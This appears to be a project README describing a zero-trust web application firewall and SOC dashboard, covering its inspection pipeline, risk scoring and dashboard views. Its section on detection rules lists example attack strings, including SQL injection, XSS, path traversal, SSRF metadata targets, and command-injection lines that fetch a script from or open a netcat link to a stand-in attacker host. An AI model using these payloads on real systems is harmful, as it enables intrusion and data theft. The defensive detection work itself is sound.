


# SentinelGate (Zentry) — Zero-Trust Web Application Security Gateway & Tactical SOC
## Comprehensive System Architecture, Operational Mechanics & Technical Guide

---

## 1. Executive Summary & Purpose

**SentinelGate** (also referred to as **Zentry**) is an enterprise-grade, high-performance **Zero-Trust Web Application Security Gateway and Web Application Firewall (WAF)**. It is built to serve as an intelligent, cryptographic security perimeter between public client traffic (browsers, automated agents, APIs, mobile devices) and internal backend microservices.

### The Problem It Solves
Traditional firewalls and perimeter security models rely on a flawed assumption: *"Everything outside the perimeter is hostile, but once inside, traffic can be trusted."* In modern cloud and distributed architectures, this perimeter is broken by credential theft, compromised endpoints, lateral movement, supply-chain vulnerabilities, and cloud metadata exploitation.

### The Zero-Trust Paradigm: "Never Trust, Always Verify"
SentinelGate enforces **Continuous Dynamic Verification**:
- **No client is inherently trusted**, regardless of their IP, network location, or whether they possess a valid login token.
- **Every incoming HTTP and WebSocket transaction is inspected** across multiple independent dimensions: network origin, cryptographic identity validity, hardware/device posture, payload threat signatures, behavioral patterns, and calculated cumulative risk.
- **Zero mock or synthetic data in production**: The entire telemetry loop—from packet arrival to database storage, cryptographic sealing, and real-time dashboard visualization—operates on authentic live data.

---

## 2. High-Level System Architecture & Topology

SentinelGate employs a modular, containerized multi-tier architecture composed of five primary subsystems:

```mermaid
graph TD
    Client["Client / Browser / API Caller"] -->|HTTPS / Port 443| Nginx["Nginx Edge Reverse Proxy (TLS Termination, Smoothing)"]
    Nginx -->|HTTP / Port 8000| Gateway["SentinelGate Gateway Engine (FastAPI / AsyncIO)"]
    
    subgraph Gateway Engine Pipeline
        Gateway --> P1["1. Envelope Extraction & Normalization"]
        P1 --> P2["2. IP Reputation & Blocklist Gate"]
        P2 --> P3["3. Identity & Token Attestation"]
        P3 --> P4["4. Device Posture & Fingerprint Evaluation"]
        P4 --> P5["5. Deep WAF Threat Engine (OWASP Top 10)"]
        P5 --> P6["6. Cumulative Risk Scoring & Policy Decision"]
        P6 --> P7["7. HMAC Audit Sealing & Stream Broadcast"]
    end

    Gateway <-->|Fast Cache & Blacklist (<1ms)| Redis[("Redis 7 In-Memory Store")]
    Gateway <-->|Persistent Schema & Audit Logs| DB[("PostgreSQL 16 Relational DB")]
    
    P7 -.->|WebSocket / Port 8000| Dashboard["Next.js 14 Tactical SOC Dashboard (Port 3000)"]
    P6 -->|ALLOW (HTTP 200)| Upstream["Protected Upstream Application APIs"]
```

### Architecture Subsystems Breakdown

| Subsystem | Technology | Port | Core Responsibilities |
| :--- | :--- | :--- | :--- |
| **Edge Ingress Proxy** | Nginx 1.27 Alpine | 80, 443 | TLS termination, HTTP/2 multiplexing, SSL offloading, client header preservation (`X-Forwarded-For`, `X-Real-IP`), and static rate smoothing. |
| **Security Gateway Engine** | Python 3.12, FastAPI, AsyncIO | 8000 | The central brain. Executes the 7-stage zero-trust inspection pipeline, coordinates threat evaluation, issues policy decisions (ALLOW, CHALLENGE, BLOCK), and mints audit logs. |
| **In-Memory Cache & State** | Redis 7 Alpine | 6379 | Ultra-low latency storage (<1ms) for real-time sliding-window rate limiting, token revocation blacklists, transient IP penalties, and threat counter aggregation. |
| **Relational Database** | PostgreSQL 16 Alpine | 5432 | ACID-compliant persistent store for registered user identities, RBAC assignments, dynamic WAF rule definitions, manual/escalated IP blocklists, and cryptographic HMAC-sealed event logs. |
| **Tactical SOC Dashboard** | Next.js 14, React 18, Tailwind CSS | 3000 | Dark-mode, high-density tactical interface. Connects via REST APIs and WebSockets to present synchronized, real-time telemetry across 10 specialized views without mock fixtures. |

---

## 3. The 7-Stage Zero-Trust Request Pipeline

When a client sends a request to the protected infrastructure, it passes through seven sequential inspection gates before a single byte reaches the upstream application:



### Stage 1: Ingress & Payload Normalization
Attackers frequently disguise malicious payloads using nested encoding schemes (URL encoding, double URL encoding, hex encoding, unicode normalization, or HTML entities).
- **Extraction**: The gateway captures the client IP, HTTP method, raw path, query parameters, headers, and body payload.
- **Multi-Pass Normalization**: Before inspection, all input fields are recursively decoded:
  - `%2527` $\rightarrow$ `%27` $\rightarrow$ `'` (single quote)
  - `%3Cscript%3E` $\rightarrow$ `<script>`
  - Unicode variants and homoglyphs are canonicalized to standard ASCII representations.
  - This neutralizes WAF bypass evasion techniques before signature matching begins.

### Stage 2: IP Blocklist & Fast Reputation Gate
- The gateway extracts the true client IP using trusted reverse proxy headers.
- It queries Redis in an $O(1)$ lookup for active blocks. If Redis is cold, it queries the PostgreSQL `ip_blocklist` table.
- If the IP is present and active, the request is immediately terminated with **HTTP 403 Forbidden**, short-circuiting expensive downstream processing.

### Stage 3: Identity & Credential Attestation
Zero-trust requires verifying who is making the call:
- **Authenticated Requests**: The gateway extracts the `Authorization: Bearer <JWT>` header. It validates the cryptographic signature against the gateway's secret key, verifies expiration (`exp`) and not-before (`nbf`) claims, and checks Redis to ensure the token has not been revoked (e.g., via user logout or administrative session invalidation).
- **Role-Based Access Control (RBAC)**: Validates whether the subject possesses required permissions (e.g., `ADMIN`, `ANALYST`, `USER`).
- **Unauthenticated / Public Requests**: The gateway synthesizes an ephemeral client identity from the IP, network ASN, and Device Fingerprint, allowing continuous tracking of unauthenticated probing behavior across sessions.

### Stage 4: Hardware & Device Posture Attestation
A stolen token used from an unrecognized machine represents an immediate compromise.
- **Fingerprinting**: Combines the User-Agent header, client header ordering, accepted MIME types, language preferences, and IP subnet to construct a device hash.
- **Trust Scoring**: Evaluates the device's consistency over time. New or radically altered hardware environments reduce the client's baseline trust score.

### Stage 5: Deep WAF Threat Detection Engine
The gateway passes the normalized request to its pluggable threat inspection engine. The engine runs 7 specialized, modular rule detectors that examine query parameters, headers, and body contents simultaneously. *(See Section 4 for complete rule details).*

### Stage 6: Risk Scoring & Policy Decision Engine
Rather than relying on binary pass/fail rules, SentinelGate computes an **Aggregate Transaction Risk Score** ranging from **0 to 100**:
$$\text{Total Risk Score} = \min\left(100, \sum \text{Risk Deltas} + \text{Device Risk} + \text{Identity Risk}\right)$$

| Score Range | Severity Level | Gateway Action | Description |
| :---: | :---: | :---: | :--- |
| **0 – 29** | **LOW** | `ALLOW` | Clean, benign traffic. Passed directly to upstream application. |
| **30 – 59** | **MEDIUM** | `CHALLENGE` / `ALLOW_AND_LOG` | Mild anomalies (e.g., unknown client agent or suspicious parameter). Allowed but flagged for monitoring. |
| **60 – 79** | **HIGH** | `BLOCK` (HTTP 403) | Definite attack vector detected (e.g., SQLi, XSS, Path Traversal). Blocked at the gateway. |
| **80 – 100** | **CRITICAL** | `BLOCK` + Escalation | High-impact weaponized payload (e.g., Command Injection, Cloud SSRF). Blocked and flagged for automatic IP quarantine. |

### Stage 7: Cryptographic HMAC Sealing & Live Broadcast
- **Sealing**: The transaction details (timestamp, IP, method, path, action, risk score, detected threats) are combined into a canonical string and hashed with a secret key using **HMAC-SHA256**.
- **Audit Persistence**: The record, along with its tamper-evident signature, is asynchronously committed to PostgreSQL.
- **SOC Streaming**: The event is immediately dispatched to the active WebSocket channel (`/ws/security-events`), pushing the update to all connected SOC analysts in under 5 milliseconds.

---

## 4. Deep-Dive: Threat Detection Rules (OWASP Top 10)

SentinelGate includes seven built-in, active inspection rules designed to intercept web application attack vectors:

### 1. SQL Injection (`SQLI_001`) — Severity: HIGH, Risk: +60
- **What It Intercepts**: Attempts to manipulate backend database SQL queries via unsanitized input.
- **Target Fields**: Query strings, form bodies, JSON bodies, headers.
- **Mechanics**:
  - Tautologies: `' OR 1=1 --`, `' OR 'x'='x`, `admin' --`
  - Stacked Queries: `'; DROP TABLE users; --`
  - Union Exploits: `UNION SELECT username, password FROM users`
  - Blind / Time-Based Probes: `SLEEP(5)`, `BENCHMARK(1000000, MD5(1))`

### 2. Cross-Site Scripting (`XSS_001`) — Severity: HIGH, Risk: +55
- **What It Intercepts**: Attempts to inject malicious client-side JavaScript or HTML to hijack user sessions or deface applications.
- **Mechanics**:
  - Script Tags: `<script>alert(1)</script>`, `<script src=...>`
  - Event Handlers: ``, `<svg onload=...>`
  - Pseudo-Protocols: `javascript:alert(1)`, `data:text/html;base64,...`
  - DOM Breakouts: `"><script>...`, `' onfocus='...`

### 3. Path Traversal & Local File Inclusion (`PATH_TRAVERSAL_001`) — Severity: HIGH, Risk: +55
- **What It Intercepts**: Attempts to escape application web roots and read sensitive operating system or configuration files.
- **Mechanics**:
  - Directory Walking: `../../etc/passwd`, `..\..\windows\system32\cmd.exe`
  - Encoded Traversals: `..%2F..%2F`, `..%252F`
  - Sensitive File References: `/proc/self/environ`, `../.env`, `../../.git/config`

### 4. Command Injection (`CMD_INJECTION_001`) — Severity: CRITICAL, Risk: +70
- **What It Intercepts**: Attempts to execute arbitrary operating system shell commands on the hosting server.
- **Mechanics**:
  - Shell Chaining Operators: `; id`, `&& cat /etc/passwd`, `| bash -i`
  - Command Substitution: `` `whoami` ``, `$(curl http://attacker.com/malware.sh)`
  - Out-of-Band Exfiltration: `| nc attacker.com 4444`, `$(wget ...)`

### 5. Server-Side Request Forgery (`SSRF_001`) — Severity: HIGH, Risk: +65
- **What It Intercepts**: Attempts to force the gateway or backend server to make unauthorized network requests to internal services or cloud hypervisor metadata endpoints.
- **Mechanics**:
  - Cloud Metadata Targets: `http://169.254.169.254/latest/meta-data/` (AWS/GCP/Azure hypervisor secrets)
  - Loopback Exploits: `http://127.0.0.1:8080/admin`, `http://localhost:3000/internal`
  - RFC 1918 Private Ranges: `http://10.0.0.5/secrets`, `http://192.168.1.1/router-admin`
  - Exotic URI Schemes: `gopher://`, `dict://`, `file:///etc/passwd`
  - *False-Positive Prevention*: Legitimate HTTP `Referer` headers from loopback frontends (e.g. `http://localhost:3000/`) are whitelisted to avoid blocking benign browser navigation.

### 6. HTTP Method Abuse (`METHOD_ABUSE_001`) — Severity: MEDIUM, Risk: +15
- **What It Intercepts**: Unusual or hazardous HTTP verbs that bypass standard routing or trigger webdav/file alteration exploits.
- **Mechanics**:
  - Restricts traffic to standard REST verbs (`GET`, `POST`, `PUT`, `DELETE`, `PATCH`, `OPTIONS`, `HEAD`).
  - Immediately rejects dangerous verbs (`TRACE`, `TRACK`, `CONNECT`, `DEBUG`, `PUT_FILE`).

### 7. Suspicious User-Agent / Scanner Probes (`USER_AGENT_001`) — Severity: MEDIUM, Risk: +10
- **What It Intercepts**: Automated security scanning suites, web scrapers, and enumeration bots.
- **Mechanics**:
  - Flags known scanner signatures: `sqlmap`, `nikto`, `gobuster`, `dirbuster`, `nmap`, `masscan`.
  - Flags automated CLI scripts pretending to be standard user browsers while omitting typical browser headers.

---

## 5. Automated Self-Healing & Escalation Mechanics

SentinelGate is designed to operate autonomously without requiring constant manual intervention from security analysts:



1. **Sliding-Window Rate Limiting**: Redis tracks request frequencies per client IP. Excess traffic is throttled using HTTP 429 Too Many Requests.
2. **Credential Brute-Force Escalation**: The gateway tracks failed authentication attempts. If an IP accumulates 10 failed login attempts within a rolling 60-second window, the gateway automatically escalates the IP to `QUARANTINED` status.
3. **Dual-Tier State Synchronization**:
   - The quarantine is stored in Redis for instantaneous ($<1\text{ ms}$) rejection of subsequent requests.
   - The quarantine is mirrored in PostgreSQL with an analyst audit note (`Automated lockout: Exceeded threshold`).
   - The incident appears immediately on the SOC Dashboard with an `INVESTIGATING` status.

---

## 6. Walkthrough: The 10 Tactical SOC Dashboard Views

The Next.js 14 tactical dashboard provides SOC teams with full situational awareness. All views receive real-time WebSocket pushes and poll live backend REST endpoints:

### View 1: Security Overview (`/`)
- **What It Does**: The operational cockpit. Displays high-level KPIs: Total Requests, Allowed Requests, Blocked Attacks, Active Threats, and the Global Threat Level (`LOW`, `ELEVATED`, `HOSTILE`).
- **Dynamic Charts**: A live SVG area chart displaying request volume over time (allowed vs. blocked traffic), an active threat gauge, and a table of the most recent inspection events.

### View 2: Request Explorer (`/requests`)
- **What It Does**: Deep forensic inspection for every single HTTP request passing through the gateway.
- **Key Features**:
  - Instant client-side filtering by decision (`ALL`, `ALLOWED`, `BLOCKED`, `CHALLENGED`), HTTP method, path, and risk level.
  - **Slide-out Forensic Investigation Drawer**: Clicking any request opens a spring-animated drawer showing the complete cryptographic transaction receipt: Request ID, exact millisecond timestamp, client IP, User-Agent, raw query parameters, triggered rules, and risk score breakdown.

### View 3: Zero-Trust Trust Engine (`/trust-engine`)
- **What It Does**: Visualizes the internal 7-stage attestation pipeline in real time.
- **How It Works**: Calculates live subsystem scores:
  - *Identity Trust Score* (OIDC / token posture)
  - *Device Health Score* (fingerprint consistency)
  - *Network Reputation Score* (block/allow ratio)
  - *Behavioral Baseline Score*
  - *WAF Threat Penalty Score*
  - Shows which stages are passing, challenged, or actively intercepting threats.

### View 4: Identities & Credentials (`/identities`)
- **What It Does**: Governance and directory view of active authenticated identities.
- **Live Data**: Shows real users queried from the PostgreSQL database (`admin`, `analyst`, `user`), their assigned RBAC permissions, MFA/auth methods, dynamic trust score, and observed external probing entities.

### View 5: Device Fleet Posture (`/devices`)
- **What It Does**: Inventory and attestation status of all observed client hardware.
- **How It Works**: The gateway clusters recent security events by `Source IP + User-Agent`. It detects the client operating system (Windows 11, macOS, Linux, Android, iOS), browser engine, total request volume, last seen timestamp, and assigns a posture status (`Known`, `Suspicious`, or `Quarantined`).

### View 6: Threat Detection & Intelligence (`/threats`)
- **What It Does**: Dedicated intelligence view detailing the distribution of attack vectors.
- **Live Breakdown**: Displays dynamic bar charts and distribution statistics across OWASP categories (SQL Injection, XSS, Path Traversal, Command Injection, SSRF, Brute Force). Provides deep-dive forensic inspection of the latest intercepted hostile payload.

### View 7: Security Policies & WAF Rules (`/policies`)
- **What It Does**: Administrative control panel for declarative zero-trust inspection gates.
- **Live Functionality**: Lists all 7 active WAF rules, their category, severity rating, and assigned risk delta score. Features **real-time hot toggle switches**: toggling a rule immediately updates the gateway engine without service restarts or downtime.

### View 8: Incident Investigation (`/incidents`)
- **What It Does**: Automatic threat correlation and incident response workspace.
- **How It Works**: The gateway engine correlates raw blocked events and groups them by attacking netblock and attack category into cohesive incident records (e.g., `INC-001: SQL_INJECTION Attack from 198.51.100.42`). Displays severity ratings, containment statuses (`INVESTIGATING`, `CONTAINED`), and chronological attack timelines.

### View 9: Cryptographic Audit Logs (`/audit-logs`)
- **What It Does**: Tamper-evident forensic ledger of all gateway security decisions.
- **Cryptographic Verification**:
  - Every entry displays its HMAC-SHA256 signature seal.
  - Features a **"Verify Cryptographic Integrity"** tool that executes an end-to-end audit check over all database records, confirming that no log entries have been modified or deleted.
  - Offers a **"Export JSONL"** button for SIEM ingestion (Splunk, Elastic, Sentinel).

### View 10: Gateway Health & Infrastructure (`/health`)
- **What It Does**: Live telemetry on gateway operational reliability and hardware resources.
- **3-Second Telemetry Polling**:
  - PostgreSQL Database connection status and live query latency in milliseconds.
  - Redis Cache connection status and live round-trip latency in milliseconds.
  - Process uptime counter ($H:M:S$).
  - System memory consumption in MB and CPU utilization percentage.
  - P95 latency overhead introduced by the security inspection pipeline ($<2\text{ ms}$).

---

## 7. Data Flow & Communication Protocols

SentinelGate relies on two synchronized communication channels:

```
[ Browser / SOC Dashboard ]
        │
        ├── 1. HTTP REST Requests (JSON) ────────────────────► [ FastAPI Gateway (Port 8000) ]
        │      • Initial view state hydration                         │
        │      • Policy toggles (POST /rules/{id}/toggle)              ├── Reads/Writes ──► [ Redis 7 ]
        │      • SIEM export & HMAC integrity verification            │
        │                                                             ├── Reads/Writes ──► [ PostgreSQL 16 ]
        └── 2. Persistent WebSocket Stream ◄──────────────────┘
               • Real-time security event telemetry (/ws/security-events)
               • Immediate state updates on all 10 views (<5ms latency)
```

1. **Synchronous REST APIs**: Used for view mounting, administrative configuration (rule toggling), data exports, and initial state hydration.
2. **Asynchronous WebSocket Streaming**: Used for live operational telemetry. When an attack is blocked at the gateway, the backend broadcasts the full security event schema to the `/ws/security-events` WebSocket topic. The dashboard ingests this event and dynamically increments counters, appends to timelines, recalculates trust scores, and updates device records without page refreshes.

---

## 8. Summary of Technical Specifications

| Parameter | Specification |
| :--- | :--- |
| **Inspection Latency Overhead** | Sub-2ms median evaluation time per request |
| **Audit Sealing Standard** | HMAC-SHA256 cryptographic digest per record |
| **Authentication Support** | Bearer JWT (RFC 7519), OAuth2, mTLS SPIFFE X.509, Ephemeral Fingerprinting |
| **WAF Coverage** | OWASP Top 10 (SQLi, XSS, SSRF, Command Injection, Path Traversal, Method Abuse) |
| **Rate Limiting Engine** | Redis sliding-window counter algorithm with automated escalation |
| **Database Migrations** | Alembic asynchronous SQLAlchemy migrations (PostgreSQL 16) |
| **Frontend Architecture** | Next.js 14 App Router, React 18 Concurrent Features, Tailwind CSS, Framer Motion |
| **Supported OS Environments** | Cross-platform (Windows, Linux, macOS, Docker) |
